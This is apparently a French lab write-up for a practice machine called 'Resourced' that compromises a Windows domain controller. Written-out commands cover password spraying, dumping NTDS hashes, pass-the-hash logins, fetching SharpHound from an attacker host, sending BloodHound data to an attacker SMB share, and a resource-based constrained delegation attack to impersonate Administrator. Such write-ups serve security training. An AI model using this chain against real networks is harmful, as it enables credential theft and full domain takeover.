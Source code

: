 # Resourced

	sudo  masscan -p1-65535,U:1-65535 192.168.184.175 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.184.175 -oN nmap.txt
	
Scans classiques.

	PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-25 17:23:21Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    9389/tcp  open  mc-nmf        .NET Message Framing
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49671/tcp open  msrpc         Microsoft Windows RPC

En énumérant le SMB on récupère une grosse quantité d'utilisateurs dont un qui a son mot de passe en description parce qu'il vient d'arriver, mais j'ai décidé de faire une liste et de faire du password spraying pour tout vérifier : 

	enum4linux 192.168.184.175 | tee resultat.txt
	cat resultat.txt | grep "has member: resourced" | cut -d'\' -f 2 | sort -u > users.txt
	for nom in `cat  users.txt` ; do  smbclient -L //192.168.184.175/ -U $nom%'HotelCalifornia194!' -N ; done

Il n'y a bien que V.Ventz qui fonctionne. En revanche on voit un partage très intéressant : **Password Audit Disk**

    Sharename Type Comment  
    --------- ---- -------  
    ADMIN$ Disk Remote Admin  
    C$ Disk Default share  
    IPC$ IPC Remote IPC  
    NETLOGON Disk Logon server share  
    Password Audit Disk
    SYSVOL Disk Logon server share

Téléchargement de tous les fichiers dans le partage : 

    smbclient //192.168.184.175/'Password Audit'  -U V.Ventz%'HotelCalifornia194!'
    smb: \> mask ""  
	smb: \> recurse ON  
	smb: \> prompt OFF  
	smb: \> mget *
   
Résultat : 

	Active Directory  
	├── ntds.dit  
	└── ntds.jfm  
	registry  
	├── SECURITY  
	└── SYSTEM

Exploitation des fichiers et extraction des hashs : 

	impacket-secretsdump -ntds "Active Directory"/ntds.dit -system registry/SYSTEM LOCAL > dump.txt
	cat dump.txt | grep ":::" | cut -d: -f1,4 > hashs.txt

Finalement j'ai directement essayé chaque paire utilisateur / hash manuellement mais on aurait pu automatiser le processus avec CrackMapExec. La seule paire qui a fonctionné est L.Livingstone / 19a3a7550ce8c505c2d46b5e39d6f808 : 

	evil-winrm -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808 -i 192.168.184.175
    type C:\Users\L.Livingstone\Desktop\local.txt

### Pivoting et élévation de privilèges : 

	iwr -Uri http://192.168.45.229/SharpHound.ps1 -Outfile .\SharpHound.ps1
	Import-Module ./SharpHound.ps1
	Invoke-BloodHound -CollectionMethod All
	net use * \\192.168.45.229\SMB
	Copy-Item 20230626004631_BloodHound.zip Z:\
	...
	impacket-smbserver smb ~/SMB -smb2support -debug
	sudo neo4j start
	bloodhound

Sur les graphes de BloodHound on remarque que notre utilisateur a les droits "CanRDP", "CanPSRemote" et "GenericAll" sur le contrôleur de domaine. Le dernier est très intéressant et ouvre des possibilités pour des attaques de type "Resource-based Constrained Delegation" notamment. On va pouvoir créer une autre machine, modifier son attribut **"msDS-AllowedToActOnBehalfOfOtherIdentity"** et usurper un administrateur pour obtenir son ticket Kerberos, que l'on utilisera pour se connecter au DC. 

Voir cet article : https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation

	impacket-addcomputer RESOURCED.LOCAL/L.Livingstone -dc-ip 192.168.184.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'CIBLE$' -computer-pass 'Mdp123'
	
	python3 rbcd.py -dc-ip 192.168.184.175 -t RESOURCEDC -f 'CIBLE' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 RESOURCED\\L.Livingstone
	
	impacket-getST -spn CIFS/resourcedc.resourced.local RESOURCED/Cible\$:'Mdp123' -impersonate Administrator -dc-ip 192.168.184.175
	
	export KRB5CCNAME=./Administrator.ccache
	
	echo "192.168.184.175 resourcedc.resourced.local" >> /etc/hosts
	
	impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.184.175

	type C:\Users\Administrator\Desktop\proof.txt
 
